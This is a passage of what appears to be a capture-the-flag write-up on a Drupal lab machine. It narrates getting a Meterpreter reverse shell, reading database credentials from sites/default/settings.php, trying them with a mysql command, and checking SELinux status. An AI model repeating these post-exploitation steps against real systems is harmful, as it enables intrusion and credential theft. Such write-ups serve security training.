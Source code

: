 After setting the remote host and the listening host, just like that, we have a reverse shell!
![5](assets/5.png)

After getting my reverse shell, I made my way over to the Drupal config file which was located at `sites/default/settings.php`.

While reading through the config file I found some credentials to the Drupal MySQL database.
```php
'database' => 'drupal',
'username' => 'drupaluser',
'password' => 'CQHEy@9M*m23gBVj',
'host' => 'localhost',
'port' => '',
'driver' => 'mysql',
'prefix' => '',
```

However when I attempt to log into the MySQL database with `mysql -u drupaluser -pCQHEy@9M*m23gBVj`, I get no response from the reverse shell.
```bash
(Meterpreter 1)(/var/www/html/sites/default) > shell
Process 2451 created.
Channel 1 created.
mysql -u drupaluser -pCQHEy@9M*m23gBVj

^C
Terminate channel 1? [y/N]  y
```

There is a possibility that SELinux is enabled and is preventing me from connecting to the database.
```bash
SELinux status:                 enabled
SELinuxfs mount:                /sys/fs/selinux
SELinux root directory:         /etc/selinux
Loaded policy name:             targeted
Current mode:                   enforcing
Mode from config file:          error (Permission denied)
Policy MLS status:              enabled
Policy deny_unknown status:     allowed
Max kernel policy version:      31
```
